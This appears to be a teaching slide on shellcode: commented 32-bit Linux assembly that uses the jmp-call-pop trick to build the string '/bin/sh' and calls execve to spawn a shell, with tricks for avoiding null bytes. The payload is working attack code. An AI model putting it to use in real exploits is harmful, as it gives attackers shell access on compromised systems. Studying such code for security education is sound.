

# 5|-|3|_|_(0])3
BITS 32

	jmp short part_two	;this is a call trick to get the string pointer address
						; on the stack
part_one:
; int execve(const char fname, char *const argv[], char *const envp[] )
	pop ebx				;EBX has the addr of our string
	xor eax, eax		;Put 0 into EAX
	mov [ebx+7], al	;Null terminate the /bin/sh string (replace the 'X' )
	mov [ebx+8], ebx	;Put addr from EBX where the '1337' is
	mov [ebx+12], eax	;Put 32-bit null terminator where the 'B055' is
	lea ecx, [ebx+8]	;Load the addr of [ebx+8] into ecx (argv ptr)
	lea edx, [ebx+12]	;EDX = EBX+12 (the env ptr)
	mov al, 11			;Put 11 into the EAX (this is a AL trick to avoid NULLs)
	int 0x80	;launch the exploit

part_two:
	call part_one		;
	db '/bin/shX1337B055'	;